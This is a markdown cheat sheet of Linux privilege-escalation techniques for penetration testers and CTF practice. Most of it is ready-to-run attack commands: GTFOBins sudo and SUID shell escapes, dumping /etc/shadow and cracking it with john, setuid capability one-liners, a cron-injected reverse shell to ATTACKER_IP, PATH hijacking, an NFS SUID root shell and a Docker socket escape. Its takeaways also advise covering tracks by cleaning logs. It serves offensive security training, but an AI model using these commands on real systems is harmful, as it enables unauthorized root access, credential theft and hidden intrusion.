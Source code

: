 ## 1️⃣ System Enumeration

🔍 **Baseline Checks**

```bash
hostname               # Hostname
uname -a               # Kernel & architecture
cat /proc/version      # Kernel build
cat /etc/issue         # OS info
```

🔍 **User & Env**

```bash
id                     # User & groups
env                    # Env variables
history                # Command history
```

🔍 **Network**

```bash
ip a / ifconfig        # Interfaces
ip route / netstat -rn # Routes
ss -tulpan             # Open ports/services
```

🔍 **Permissions & Special Bits**

```bash
find / -perm -4000 -type f -ls 2>/dev/null  # SUID
getcap -r / 2>/dev/null                     # Capabilities
```

🔍 **Scheduled Jobs**

```bash
cat /etc/crontab
ls -la /etc/cron.*/*
crontab -l
```

🔍 **Writable Places**

```bash
find / -writable -type d 2>/dev/null
```

---

## 2️⃣ Automated Enumeration

Use to speed up, **never trust blindly** — validate by hand:
```bash
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

---

## 3️⃣ Kernel Exploits

1. `uname -r` — get version
2. Search **CVE**, **searchsploit**, **Exploit-DB**
    ```bash
    searchsploit Linux Kernel <version>
    ```
3. Transfer exploit: `wget`, `scp`, `python3 -m http.server`
4. Compile & run:
    ```bash
    gcc exploit.c -o exploit && ./exploit
    ```
5. `whoami` → verify root

⚠️ **Danger:** Kernel exploits can crash a box — use only when safe.

---

## 4️⃣ Sudo Abuse

🔍 **List allowed commands:**

```bash
sudo -l
```

🔑 **GTFOBins Tricks**

- `find`:    
    ```bash
    sudo find . -exec /bin/sh \\; -quit
    ```
- `vim`:
    ```bash
    sudo vim -c ':!sh'
    ```
- `less`, `nano`: similar `:!bash` or `^R^X` tricks.

Always check [GTFOBins](https://gtfobins.github.io/).

---

## 5️⃣ SUID Binary Abuse

```bash
find / -perm -4000 -type f 2>/dev/null
```

Check unusual SUID binaries (`nmap`, `vim`, `find`):

```bash
nmap --interactive
!sh
```

Or dump shadow:

```bash
/usr/bin/base64 /etc/shadow > /tmp/shadow.b64
base64 -d /tmp/shadow.b64 > /tmp/shadow.txt

unshadow /etc/passwd /tmp/shadow.txt > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## 6️⃣ File Capabilities

Show files with capabilities:

```bash
getcap -r / 2>/dev/null
```

If `cap_setuid`:

```bash
python3 -c 'import os; os.setuid(0); os.system(\"/bin/sh\")'
```

Or use `perl` GTFOBin:

```bash
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec \"/bin/sh\";'
```

---

## 7️⃣ Cron Job Abuse

Find writable cron scripts:

```bash
grep -R \"root\" /etc/cron* 2>/dev/null
```

If writable:

```bash
echo \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\" >> /root/cronjob.sh
nc -lvnp 4444
```

---

## 8️⃣ PATH Hijacking

If a root process calls a binary using relative PATH:

```bash
export PATH=/tmp:$PATH
echo -e '#!/bin/bash\\n/bin/bash' > /tmp/ls
chmod +x /tmp/ls
```

When root runs `ls` → you get root shell.

---

## 9️⃣ NFS `no_root_squash`

Check `/etc/exports`:

```bash
cat /etc/exports
```

If `no_root_squash` → mount:

```bash
mount -o rw ATTACKER_IP:/share /mnt
echo -e '#!/bin/bash\\n/bin/bash' > /mnt/rootshell
chmod +x /mnt/rootshell
chown root:root /mnt/rootshell
chmod 4755 /mnt/rootshell
```

Run on target:

```bash
./rootshell
```

---

## 🔟 Other Useful Vectors

✅ **Sticky Bit Misconfigs:**  
Check `/tmp`:

```bash
ls -ld /tmp
# Should be drwxrwxrwt
```

If `t` is missing, any user can delete others’ files.

✅ **Weak SSH Keys:**

```bash
find / -name id_rsa 2>/dev/null
```

Try recovered private keys with:

```bash
ssh -i id_rsa user@host
```

✅ **Docker Socket:**

```bash
ls -l /var/run/docker.sock
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

✅ **Kubernetes:**  
Check `/var/run/secrets/kubernetes.io/`.

✅ **Misconfigured Kernel Modules:**  
Look for `insmod` or custom modules with write access.

---

## ✔️ Key Takeaways

1️⃣ **Enum like crazy** — every privesc starts there.  
2️⃣ **Cross-check auto tools** by hand.  
3️⃣ **Use least-destructive first** (sudo, SUID, cron > kernel exploit).  
4️⃣ **Cover your tracks** — clean dropped files/logs.  
5️⃣ **Document everything** for your report.  
6️⃣ **Train constantly** — practice on THM, VulnHub, HackTheBox.

---

